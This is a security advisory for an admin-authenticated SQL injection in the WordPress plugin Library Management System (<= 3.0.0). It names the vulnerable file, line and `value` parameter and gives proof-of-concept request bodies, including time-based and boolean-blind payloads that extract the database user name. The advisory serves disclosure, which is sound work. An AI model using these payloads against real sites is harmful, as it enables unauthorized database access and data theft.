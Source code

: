 # Library Management System <= 3.0.0 - Authenticated (Admin+) SQL Injection

### Description

[Library Management System](https://wordpress.org/plugins/library-management-system/) plugin has a parameter vulnerable to SQL Injection at `admin/class-library-management-system-admin.php`, on [line 2092](https://plugins.trac.wordpress.org/browser/library-management-system/trunk/admin/class-library-management-system-admin.php#L2092).

The parameter is `value` when you filter books by category. Since we can control variable `$filterValue` and it is being pass directly on the query, we can alter it.

It's possible there are other vulnerable queries too, not yet tested, but the process seems to be the same.

<br>

### Proof of Concept

This will return category 1:
```
module=books&filterBy=category&value=2+OR+1&action=owt_lib_handler&param=owt7_lms_data_option_filters&owt7_lms_nonce=63f97d5b29
```

This will make the database sleep:
```
module=books&filterBy=category&value=2+OR+sleep(5)&action=owt_lib_handler&param=owt7_lms_data_option_filters&owt7_lms_nonce=6802c70449
```

<br>

**Boolean Blind Payload** to dump information:

This will return true, so the first character of the username id 'd' (character for 100 in ASCII):
```
1+AND+(SELECT+ASCII(SUBSTRING((SELECT+USER()),1,1))=100)
```

Find second character (the username is 'demo' in this case):
```
1+AND+(SELECT+ASCII(SUBSTRING((SELECT+USER()),2,1))=101)
```
